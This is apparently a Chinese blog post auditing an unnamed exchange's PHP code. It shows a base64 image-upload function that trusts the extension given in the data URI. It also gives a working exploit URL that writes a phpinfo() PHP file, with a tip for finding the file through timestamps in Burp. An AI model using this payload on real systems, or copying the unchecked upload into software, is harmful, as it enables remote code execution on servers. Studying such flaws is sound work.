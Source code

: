 ```yaml
---
title: "某交易所RCE"
date: 2020-10-25T17:28:10+08:00
draft: false
tags: ['交易所']
categories: ['代码审计']
---
```


# 某交易所RCE

## 漏洞文件
Application/Home/Controller/UserController.class.php
<!--more-->



## 漏洞代码

```perl
 public function base64_image_content($base64_image_content, $path)
    {
        //匹配出图片的格式
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)) {
            $type     = $result[2];
            $new_file = $path."/".date('Ymd', time())."/";
            if (!file_exists($new_file)) {
                //检查是否有该文件夹，如果没有就创建，并给予最高权限
                mkdir($new_file, 0700);
            }
            $new_file = $new_file.time().".{$type}";
            if (file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_image_content)))) {
                //return '/'.$new_file;
                return time().'.'.$type.'';
            } else {
                return false;
            }
        } else {
            return false;
        }
    }
```


## 漏洞分析


传参 base64_image_content 和path变量，对传入的base64_image_content进行正则匹配，也就是让我们传一个base64形式的图片，和路径
如data:image/png;base64,xxx，把$result[2]的值赋给变量type。也就是/png这个的内容。生成一个以年月日命名的文件夹。生成一个时间戳的变量赋给new_file。然后对base64后的进行解码，写入文件。代码没判断传入的type头，所以可传入一个php文件




## 漏洞利用


Payload:

```perl
Pc/User/base64_image_content/?base64_image_content=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==&path=./
```


实战中发现不回显文件夹及文件名，可利用Burp发送Payload，查看返回包的时间戳，然后进行转换即可



